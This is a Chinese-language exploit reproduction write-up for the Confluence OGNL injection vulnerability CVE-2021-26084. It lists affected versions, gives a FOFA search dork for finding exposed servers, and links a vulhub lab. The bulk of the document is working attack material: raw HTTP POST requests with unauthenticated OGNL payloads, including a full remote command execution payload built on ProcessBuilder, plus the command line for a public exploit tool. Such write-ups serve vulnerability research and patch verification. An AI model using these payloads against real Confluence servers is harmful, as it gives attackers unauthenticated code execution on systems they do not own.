 # Confluence OGNL表达式注入代码执行漏洞(CVE-2021-26084)
# 0x00 漏洞描述
 远程攻击者在经过身份验证或在特定环境下未经身份验证的情况下，可构造OGNL表达式进行注入，实现在 Confluence Server或Data Center上执行任意代码.  
# 0x01 影响范围
受影响版本
- Confluence < 6.13.23
- 6.14.0 ≤ Confluence < 7.4.11
- 7.5.0 ≤ Confluence < 7.11.6
- 7.12.0 ≤ Confluence < 7.12.5
- Confluence < 7.13.0

不受影响版本
- Confluence=6.13.23
- Confluence=7.4.11
- Confluence=7.11.6
- Confluence=7.12.5
- Confluence=7.13.0

# 0x02 FOFA DORK
app="ATLASSIAN-Confluence"

# 0x03 环境搭建
- https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2021-26084/README.zh-cn.md

# 0x04 漏洞复现
有多个接口可以触发这个OGNL表达式注入漏洞。

## 4.1 漏洞验证

### /pages/doenterpagevariables.action
这个接口不需要登录即可利用，发送如下数据包，即可看到`233*233`已被执行：

```
POST /pages/doenterpagevariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```

![image](https://user-images.githubusercontent.com/84888757/172718975-4a01ef56-de09-4c7c-9f3b-f4c85cd6c0c9.png)

### /pages/createpage-entervariables.action
这个路径也不需要用户登录：
```
POST /pages/createpage-entervariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```


## 4.1 命令执行
```
POST /pages/doenterpagevariables.action HTTP/1.1
Host: 192.168.50.227:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1060

queryString=%5cu0027%2b%7bClass.forName%28%5cu0027javax.script.ScriptEngineManager%5cu0027%29.newInstance%28%29.getEngineByName%28%5cu0027JavaScript%5cu0027%29.%5cu0065val%28%5cu0027var+isWin+%3d+java.lang.System.getProperty%28%5cu0022os.name%5cu0022%29.toLowerCase%28%29.contains%28%5cu0022win%5cu0022%29%3b+var+cmd+%3d+new+java.lang.String%28%5cu0022id%5cu0022%29%3bvar+p+%3d+new+java.lang.ProcessBuilder%28%29%3b+if%28isWin%29%7bp.command%28%5cu0022cmd.exe%5cu0022%2c+%5cu0022%2fc%5cu0022%2c+cmd%29%3b+%7d+else%7bp.command%28%5cu0022bash%5cu0022%2c+%5cu0022-c%5cu0022%2c+cmd%29%3b+%7dp.redirectErrorStream%28true%29%3b+var+process%3d+p.start%28%29%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader%28process.getInputStream%28%29%29%3b+var+bufferedReader+%3d+new+java.io.BufferedReader%28inputStreamReader%29%3b+var+line+%3d+%5cu0022%5cu0022%3b+var+output+%3d+%5cu0022%5cu0022%3b+while%28%28line+%3d+bufferedReader.readLine%28%29%29+%21%3d+null%29%7boutput+%3d+output+%2b+line+%2b+java.lang.Character.toString%2810%29%3b+%7d%5cu0027%29%7d%2b%5cu0027
```

![image](https://user-images.githubusercontent.com/84888757/172719831-de3f7df2-4614-4a5c-b2fc-9d872436ac2d.png)


- 🔗 [工具链接 @h3v0x](https://github.com/h3v0x/CVE-2021-26084_Confluence/)
```
python3 Confluence_OGNLInjection.py -u http://xxxxx.com -p /pages/createpage-entervariables.action?SpaceKey=x
```

![image](https://user-images.githubusercontent.com/84888757/172717876-4fcf9bb4-0117-459e-8464-74f4b517ae36.png)

# 0x05 参考链接
- https://github.com/h3v0x/CVE-2021-26084_Confluence/
- https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2021-26084/README.zh-cn.md
